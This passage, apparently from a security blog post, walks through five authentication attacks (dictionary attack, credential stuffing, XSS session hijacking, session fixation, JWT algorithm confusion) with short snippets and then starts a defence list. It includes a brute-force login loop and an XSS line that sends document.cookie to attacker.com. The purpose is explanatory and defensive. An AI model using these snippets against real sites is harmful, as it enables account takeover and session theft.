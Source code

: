 **Lesson**: Enforce MFA on all remote access points

---

## **How Hackers Exploit It: 5 Step-by-Step Scenarios**

### **1\. Dictionary Attack**

```python
# Try passwords from a wordlist
for password in open('common.txt'):
    requests.post(url, data={'user': 'admin', 'pass': password})
```

### **2\. Credential Stuffing**

Use breached creds like:

```python
username: reused@email.com
password: Summer2023!
```

### **3\. Session Hijacking via XSS**

```javascript
var i = new Image();
i.src = "http://attacker.com/log?c=" + document.cookie;
```

### **4\. Session Fixation**

```python
https://victim.com/login?SID=attacker123
```

### **5\. JWT Algorithm Confusion**

```json
{
  "alg": "HS256",
  "role": "admin"
}
```

---

## **How to Defend: Best Practices**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745115843054/6afa312e-79e1-4506-a8aa-13bca99f40eb.jpeg align="center")

* ✅ Use Argon2id, bcrypt, and strong salting
    
* ✅ Screen passwords against breach lists
    
